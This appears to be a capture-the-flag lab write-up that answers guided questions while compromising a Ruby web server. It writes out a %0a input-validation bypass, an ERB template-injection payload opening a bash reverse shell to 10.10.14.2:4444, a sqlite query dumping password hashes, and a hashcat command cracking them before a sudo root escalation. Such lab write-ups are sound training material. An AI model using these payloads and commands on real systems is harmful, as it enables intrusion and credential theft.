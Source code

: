 ### Details: 
IP :  10.129.64.80

NMAP SCAN:  ![[Pasted image 20240720145212.png|1000]]
## Q1 - What version of `OpenSSH` is running?
A: OpenSSH 8.9p1 running on port 22 from nmap scan

## Q2 - What programming language is the web application written in?

Use wappalyzer on website to find programming language
![[Pasted image 20240720145652.png]]


## Q3 - Which endpoint on the web application allows for user input?
/weighted-grade allows user input
![[Pasted image 20240720145738.png|500]]


## Q4 Which column on the grade-calculator page allows alphanumeric input?
Category only input that allows alphanumeric input

![[Pasted image 20240720150024.png]]


## Q5 - What is the URL-encoded value of the character you can use to bypass the input validation on the Category column?

### A: %0a
If we URL encode the linefeed value using **%0a** we can bypass the input validation
![[Pasted image 20240720150650.png]]
![[Pasted image 20240720151024.png]]

We then test a Ruby SSTI (Server Side Template Injection)

We can use this basic injection found on github https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---basic-injectionsand and test if the input is valid 

![[Pasted image 20240720151326.png]]
![[Pasted image 20240720151423.png]]

We can see that when we input the command it gives us the output 49 meaning that it is vulnerable to code execution.

## Q6 What is the name of the templating system in use by this web application?
**Embedded Ruby (ERB)** is the templating system of Ruby. So the fact that this is vulnerable to SSTI means that the templating system is **Embedded Ruby (ERB)**.

# Next Steps

Since the website is vulnerable to SSTI we can use this to our advantage to spawn a reverse shell.

Create simple shell command :
**<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").readlines() %>**

![[Pasted image 20240720160225.png]]
we setup our listener on the other side and hit enter

NC:  ![[Pasted image 20240720160254.png]]

check if we have python 3 on the system then we can make a more interactive shell using 
**python3 -c 'import pty; pty.spawn("/bin/bash")'**

now we have a more interactive shell.

![[Pasted image 20240720160607.png]]

## Q7 Submit User Flag

![[Pasted image 20240720160944.png]]
## Q8 Which non-default group is the susan user a part of?

when we enter the command groups we can see that Susan is apart of the Sudo group.
![[Pasted image 20240720161133.png]]
## Q9 What is the full path of the sqlite database containing the susan user's password hash?
after looking around we find the database in:
/home/susan/Migration/pupilpath_credentials.db

using the command - sqlite3 pupilpath_credentials.db "select name, password from users" 

we retrieve the hashes
![[Pasted image 20240720162159.png]]
## What is susans user password
we also find looking around that susan has a default password format in an mail folder
![[Pasted image 20240720163018.png]]

since we know this we can create a custom wordlist and use hashcat to crack it
using the command
hashcat -m 1400 -a 6 susanhash susanwl ?d?d?d?d?d?d?d?d?d -O   

**-m 1400** = SHA256 Hash
**-**a 6** = attack mode hybrid since we are using our own wordlist
**susanhash** = the hash of susans pass
**susanwl** = "susan_nasus" since we know the password format from the email
**?d?d?d?d?d?d?d?d?d** = this represents the 9 digits to brute force
**-O** = optimization
#### We now have the cracked pw
![[Pasted image 20240720164858.png]]



we can now use susans password to get to shell as she has sudo access

if we use the command sudo -i we can open a root shell.

this box is now completed

![[Pasted image 20240720165112.png]]